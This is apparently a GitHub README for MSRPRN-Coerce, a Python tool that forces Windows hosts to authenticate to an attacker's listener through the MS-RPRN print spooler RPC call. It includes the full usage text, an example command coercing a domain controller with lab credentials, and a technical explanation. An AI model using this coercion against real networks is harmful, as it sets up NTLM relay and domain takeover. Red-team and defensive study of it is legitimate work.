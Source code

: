 # MSRPRN-Coerce

<p align="center">
    A python script to force authentification using MS-RPRN RemoteFindFirstPrinterChangeNotificationEx function (opnum 69).
    <br>
    <img src="https://badges.pufler.dev/visits/p0dalirius/MSRPRN-Coerce/"/>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/MSRPRN-Coerce">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <br>
</p>

![](./.github/banner.png)

## Features

**Requires**: A valid username and password on the domain.

 - [x] Force authentification using MS-RPRN `RemoteFindFirstPrinterChangeNotificationEx` function (opnum 69).
 - [x] 🐍 Python 3 and Python 2 compatibility.
 - [x] Targets either a single IP or a range of IPs.

## Usage

```
$ ./MS-RPRN-Coerce.py -h
MS-RPRN-Coerce v1.1 - by @podalirius_

usage: e.py [-h] [-v] [--dc-ip ip address] [-d DOMAIN] [-u USER] [--target-ip ip address] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key] [-k]
            listener target

Force authentification using MS-RPRN RemoteFindFirstPrinterChangeNotificationEx function (opnum 69).

positional arguments:
  listener              IP address or hostname of listener.
  target                IP address or hostname of target.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbose mode. (default: False)

authentication & connection:
  --dc-ip ip address    IP Address of the domain controller or KDC (Key Distribution Center) for Kerberos. If omitted it will use the domain part (FQDN) specified in the
                        identity parameter
  -d DOMAIN, --domain DOMAIN
                        (FQDN) domain to authenticate to
  -u USER, --user USER  user to authenticate with
  --target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name or
                        Kerberos name and you cannot resolve it

  --no-pass             Don't ask for password (useful for -k)
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH
                        NT/LM hashes, format is LMhash:NThash
  --aes-key hex key     AES key to use for Kerberos Authentication (128 or 256 bits)
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from .ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it
                        will use the ones specified in the command line
```

## Example

To force `DC01.LAB.local` to authenticate over SMB to your attacker IP `192.168.2.51`:

```
./MS-RPRN-Coerce.py 192.168.2.51 DC01.LAB.local -u user1 -p 'Lab123!'
```

## Technical detail

This attack performs an RPC call of the `RpcRemoteFindFirstPrinterChangeNotificationEx` function (opnum 69) in the SMB named pipe `\pipe\spoolss` through the `IPC$` share to force authentication from a target machine to another.

## Demo

https://user-images.githubusercontent.com/79218792/155523928-6614ba1f-13c0-4bfc-8f42-05ef78c1e905.mp4

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.
